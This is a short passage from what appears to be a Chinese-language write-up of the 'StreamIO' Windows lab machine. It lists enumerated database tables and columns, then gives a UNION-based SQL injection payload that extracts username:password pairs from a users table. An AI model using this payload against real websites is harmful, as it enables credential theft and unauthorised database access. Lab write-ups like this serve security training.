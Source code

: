 ![image-20250516150953205](./StreamIO-Windows/image-20250516150953205.png)

改变不同数据获取不同字段

| users(901578250) | id   | is_staff | password  | username |       |      |
| ---------------- | ---- | -------- | --------- | -------- | ----- | ---- |
| movie(885578193) | id   | imdb     | metascore | movie    | votes | yeat |

#### 获取数据

```
q=10' union select 1,concat(username,':',password),3,4,5,6 from users--+
```
